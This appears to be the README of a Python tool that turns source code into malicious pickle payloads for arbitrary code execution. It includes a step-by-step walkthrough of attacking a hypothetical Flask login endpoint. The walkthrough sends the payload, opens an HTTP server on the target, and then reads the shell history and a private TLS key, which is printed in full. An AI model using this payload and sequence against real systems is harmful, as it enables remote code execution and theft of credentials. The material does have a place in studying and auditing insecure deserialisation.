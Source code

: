 # cucumber.py
---

cucumber.py, ACE via Python pickle unpacking. Written by
Oelin <me.oelin@gmail.com>.

### Command

```
cucumber.py [path]
```
 
### Description

This script exploits features of Python's popular serialisation library, pickle, in such a way as to cause the execution of arbitrary code by programs at run-time. Simply specify the path to a file containing Python source code. An exploitative pickle serialisation will then be written to stdout (ouput). If another Python program attempts to unpack this
serialisation, the original code given will be executed. Note that this script should only be used for demonstratory purposes. It is not a security hacking tool!

### Usage

In the following example, a script to start a HTTP web server on port 8000 is crafted into a pickle serialisation. When subject to `pickle.loads()` (i.e by a vulnerable program), the script will be executed. The script can also be found in this repository at
`./scripts/httpd.py`.

```
$ ls
httpd.py
$ ./cucumber.py httpd.py > httpd.pickle
$ ls
httpd.py httpd.pickle
```
After an exploitative serialisation has been created, it can be used to audit target programs for vulnerabilities, namely those which do not perform adequate input validation. Shown below, is a hypothetical scenareo where an attacker manages to obtain the private TLS key of a Flask web server. The API endpoint `/login` does not provide validation of input data yet at some point invokes `pickle.loads()` on said data. By sending `httpd.pickle` as input, the endpoint will readily transfer control to the malicious script. The attacker may then connect over port 8000 to read arbitrary files on the target machine, including private ones.

```
$ curl https://api.alice.com/robots.txt
User-agent: *
Disallow: /users
Allow: /login
Disallow: /login?u=*
Allow: /search

$ curl https://api.alice.com/login?u=bob
{"state": "error", "reason": "base64 decode error"}

$ user=`echo bob | base64`
$ curl https://api.alice.com/login?u=$user
{"state": "error", "reason": "unpickling failed"}

$ user=`cat httpd.pickle`
$ curl https://api.alice.com/login?u=$user

...

^C
$ curl -I http://api.alice.com:8000/
HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.6.7
Date: Thu, 28 Mar 2019 20:31:13 GMT
Content-type: text/html; charset=utf-8
Content-Length: 1907

$ curl http://api.alice.com:8000/.bash_history
.
.
.
ls
find . | grep 'key.pem'
cd /srv/http/alice.com/backup/tls
cat key.pem
vim
cd ~
.
.
.

$ curl http://api.alice.com:8000/srv/http/alice.com/backup/tls/key.pem
-----BEGIN PRIVATE KEY-----
MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQChTcy8+upAE3Nh
IGgpscmgMJaUR4PLyFxFbKNSXhSZwCEL27FtZEInRa9jcNYb4t4y272Z1xcHC311
x/JxBcOQ0EfMQmTmQP0jvfKQNA7TI4HOIKPsLS7GREtTZveqU1R7lNYR/fzhKmfn
ZELWE4PMbXelkalbuAzXbS1wo14M7T6U3kPXTbaatyIezTWCYnXJZhkK8vIszPnv
dn2Xo2i0H5NKOz5MKeUuZ3D++BawxlSQaGKiGrwvm+WCjD9BvncluMSbjwYmgXnM
l8+a1PDNPzY3s/TVoEKErNxox3jxu4HpWf70jF5soBK5yGde9s5RaYLSHQwf8969
crwx+6krAgMBAAECggEANn6vRcVLcJxhpZWqOzPaV2ky5iOHDkjBi57ZSpGISi1T
vMrbFYcCpnvvdhv/6enqgaolUx0MpY+nMix75t04pesH5qUjq3qXSwT4NumvfHuJ
dhcm6jqVi9w0ypeF4qBGcX3mGKwDTBrkgZMo1WRAacct3dzpJ5h1li5HZL98ncbb
onZwGKcGoAR4rfT0r+ijOs499OgGq3mRTceLK+PX0qnNU30B/IhwAvuSfKN4IiRH
d88tB+ZaasO+ZMTK8aEuM0GAgIl7OJLDswWaM2+AwawNrOyUaYHNSoQ0OPYc4/l7
CaoP6/ITnv5UrGGVKZbqVEo2YgGkHEDq7nPVc/flwQKBgQDU3cEv4q6Soue4ggwl
C5DlxHAu76ffQ55sU9L1IBUPS22Mf1td35CIVH5+Dj1Z9i3iSdACdFGs2NFxUGhC
CGICP41Uf5GG8YvcQh4KKJRTWeLLCr9RY4gK5vWeQE31JlzK18MfcrCXR058e+jA
MmQO6ZwG8OrxaZ6UsywvmNOXiwKBgQDB/UuwxgBOeGqGFdCzWtWMydNkbwEUjvho
3uL8wVWso8th+Bc1SPKd9wpEF+oZT/mhtvYc38JB9Q2eAri6uYEWfPrMXTmE9tje
U6TZhJf0Qg/NmATqCzkCmXSFIBaRFBSrlfD+fniFWw+GI4gntbNjjXFwxwHF0san
sK6uFblo4QKBgQCqlVbmb+rkGeZGJvliioVAjA42ntlRgtenCfmpdF9MFW8hw0HN
1YX2qnd/vxuNR0n36JzoCp0VPd+BxiT2nc8k7BbvGxfdIx6okNeP3nsW3JZxjhhJ
OdDgo7s7aV7P0UFVUFjOj9NSN9N+0LFxrDAg/zaJHXG5qqFpmrgTII6YBwKBgEs2
rFwzyPaj1Zl7Z9nChD38Gsw8Bc00ybfPg27AfzlaoIaxrD3qtLbui7pvE0MRMRa0
W6RCVY1BODBlmb48IoLXnl4SXzTgiKFbCPWVZV09J+ds46rjAw2w9e6PzHAfuwv0
LOZfntcFwXUe3bGXz5/vvWYeot9So9dst62jmqnBAoGBAJaCzGZ+/R3ndaAWLrzY
L2wlhdVMMdQ+CkLCgomaEVHvAgnxFXPCyLMslCw55DwJTqLZUnkZ+0ME1fywHxkU
vefy74c1qNFFi6JId3zkjFnTK0b+o1JsLLE9CFUOsJfOQuHDgCDMwSadcO6cdkxp
69cRB+4sChk3oWcFv7E8/euY
-----END PRIVATE KEY-----
$
$ Alice has been pwnd!
```
